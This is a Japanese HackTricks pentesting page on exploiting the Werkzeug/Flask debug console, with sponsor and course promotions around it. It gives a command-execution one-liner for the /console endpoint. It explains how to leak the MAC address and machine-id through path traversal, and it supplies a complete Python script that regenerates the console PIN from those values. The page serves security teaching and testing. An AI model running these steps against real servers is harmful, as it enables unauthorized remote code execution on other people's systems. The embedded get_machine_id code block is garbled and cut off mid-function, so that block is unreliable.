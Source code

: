 # Werkzeug / Flask Debug

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>でAWSハッキングをゼロからヒーローまで学ぶ</strong></a><strong>！</strong></summary>

HackTricks をサポートする他の方法:

* **HackTricks で企業を宣伝したい** または **HackTricks をPDFでダウンロードしたい** 場合は [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) をチェックしてください！
* [**公式PEASS＆HackTricksスワッグ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)、当社の独占的な [**NFTs**](https://opensea.io/collection/the-peass-family) コレクションを発見する
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f) または [**telegramグループ**](https://t.me/peass) に **参加** または **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live) を **フォロー** してください。
* **ハッキングトリックを共有するために** [**HackTricks**](https://github.com/carlospolop/hacktricks) と [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) のgithubリポジトリにPRを提出してください。

</details>

<figure><img src="../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

**どこからでも利用可能な脆弱性評価およびペネトレーションテストのための即座のセットアップ**。レコンからレポート作成まで、20以上のツールと機能を使用して完全なペンテストを実行します。私たちはペンテスターを置き換えるのではなく、カスタムツール、検出、およびエクスプロイトモジュールを開発して、彼らにより深く掘り下げる時間を与え、シェルをポップして楽しむことができます。

{% embed url="https://pentest-tools.com/" %}

## コンソールRCE

デバッグがアクティブな場合、`/console` にアクセスして RCE を取得しよう。

```python
__import__('os').popen('whoami').read();
```

![](<../../.gitbook/assets/image (317).png>)

インターネット上には[これ](https://github.com/its-arun/Werkzeug-Debug-RCE)のような脆弱性がいくつか存在します。また、metasploitにも同様のものがあります。

## Pin Protected - パストラバーサル

場合によっては、**`/console`** エンドポイントがPINで保護されることがあります。**ファイルトラバーサルの脆弱性**がある場合、そのPINを生成するために必要なすべての情報を漏洩させることができます。

### Werkzeug Console PIN Exploit

アプリ内でデバッグエラーページを強制して、次のように表示されるようにします：

```
The console is locked and needs to be unlocked by entering the PIN.
You can find the PIN printed out on the standard output of your
shell that runs the server
```

Werkzeugのデバッグインターフェースにアクセスしようとすると、「コンソールがロックされている」というシナリオに遭遇し、コンソールをアンロックするためにPINが必要であることが示されます。Werkzeugのデバッグ初期化ファイル（`__init__.py`）内のPIN生成アルゴリズムを解析して、コンソールPINを悪用することが提案されています。PIN生成メカニズムは[**Werkzeugソースコードリポジトリ**](https://github.com/pallets/werkzeug/blob/master/src/werkzeug/debug/\_\_init\_\_.py)から調査できますが、潜在的なバージョンの不一致のため、実際のサーバーコードをファイルトラバーサルの脆弱性を利用して入手することが推奨されています。

コンソールPINを悪用するためには、`probably_public_bits`と`private_bits`の2つの変数セットが必要です：

#### **`probably_public_bits`**

* **`username`**：Flaskセッションを開始したユーザーを指します。
* **`modname`**：通常は`flask.app`と指定されます。
* **`getattr(app, '__name__', getattr(app.__class__, '__name__'))`**：一般的には**Flask**に解決します。
* **`getattr(mod, '__file__', None)`**：Flaskディレクトリ内の`app.py`への完全なパスを表します（例：`/usr/local/lib/python3.5/dist-packages/flask/app.py`）。`app.py`が適用されない場合は、**`app.pyc`を試してください**。

#### **`private_bits`**

* **`uuid.getnode()`**：現在のマシンのMACアドレスを取得し、`str(uuid.getnode())`で10進数形式に変換します。
* **サーバーのMACアドレスを特定**するには、アプリで使用されているアクティブなネットワークインターフェイスを特定する必要があります（例：`ens3`）。不確実な場合は、デバイスIDを見つけるために\*\*`/proc/net/arp`をリーク**し、その後**`/sys/class/net/<device id>/address`\*\*からMACアドレスを抽出します。
* 16進数のMACアドレスを10進数に変換する方法は以下の通りです：

```python
# 例としてのMACアドレス：56:00:02:7a:23:ac
>>> print(0x5600027a23ac)
94558041547692
```

* **`get_machine_id()`**：`/etc/machine-id`または`/proc/sys/kernel/random/boot_id`からのデータと、`/proc/self/cgroup`の最後のスラッシュ（`/`）以降の最初の行からのデータを連結します。

<details>

<summary>`get_machine_id()`のコード</summary>

\`\`\`python def get\_machine\_id() -> t.Optional\[t.Union\[str, bytes]]: global \_machine\_id

if \_machine\_id is not None: return \_machine\_id

def \_generate() -> t.Optional\[t.Union\[str, bytes]]: linux = b""

## machine-id is stable across boots, boot\_id is not.

for filename in "/etc/machine-id", "/proc/sys/kernel/random/boot\_id": try: with open(filename, "rb") as f: value = f.readline().strip() except OSError: continue

if value: linux += value break

## Containers share the same machine id, add some cgroup

## information. This is used outside containers too but should be

## relatively stable across boots.

try: with open("/proc/self/cgroup", "rb") as f: linux += f.readline().strip().rpartition(b"/")\[2] except OSError: pass

if linux: return linux

## On OS X, use ioreg to get the computer's serial number.

try:

````
</details>

必要なすべてのデータをまとめた後、脆弱性スクリプトを実行してWerkzeugコンソールのPINを生成できます。

必要なすべてのデータをまとめた後、脆弱性スクリプトを実行してWerkzeugコンソールのPINを生成します。スクリプトは組み立てられた`probably_public_bits`と`private_bits`を使用してハッシュを作成し、その後さらなる処理を経て最終的なPINを生成します。以下は、このプロセスを実行するためのPythonコードです：
```python
import hashlib
from itertools import chain
probably_public_bits = [
'web3_user',  # username
'flask.app',  # modname
'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
'/usr/local/lib/python3.5/dist-packages/flask/app.py'  # getattr(mod, '__file__', None),
]

private_bits = [
'279275995014060',  # str(uuid.getnode()),  /sys/class/net/ens33/address
'd4e6cb65d59544f3331ea0425dc555a1'  # get_machine_id(), /etc/machine-id
]

# h = hashlib.md5()  # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
if not bit:
continue
if isinstance(bit, str):
bit = bit.encode('utf-8')
h.update(bit)
h.update(b'cookiesalt')
# h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
h.update(b'pinsalt')
num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
for group_size in 5, 4, 3:
if len(num) % group_size == 0:
rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
for x in range(0, len(num), group_size))
break
else:
rv = num

print(rv)
````

このスクリプトは、ビットを連結してハッシュ化し、特定のソルト（`cookiesalt`と`pinsalt`）を追加し、出力をフォーマットしてPINを生成します。生成されるPINがWerkzeugコンソールで期待されるPINと一致するようにするには、`probably_public_bits`と`private_bits`の実際の値をターゲットシステムから正確に取得する必要があります。

Werkzeugの**古いバージョン**を使用している場合は、sha1の代わりにmd5の**ハッシュアルゴリズムを変更**してみてください。

### 参考文献

* [**https://www.daehee.com/werkzeug-console-pin-exploit/**](https://www.daehee.com/werkzeug-console-pin-exploit/)
* [**https://ctftime.org/writeup/17955**](https://ctftime.org/writeup/17955)

<img src="../../.gitbook/assets/image (2) (1) (1).png" alt="" data-size="original">

**脆弱性評価およびペネトレーションテストのための即座に利用可能なセットアップ**。レコンからレポート作成までの20以上のツールと機能を使用して、どこからでも完全なペンテストを実行します。私たちはペンテスターを置き換えるのではなく、彼らに時間を戻して深く掘り下げたり、シェルをポップしたり、楽しんだりするためのカスタムツール、検出、およびエクスプロイトモジュールを開発しています。

</details>
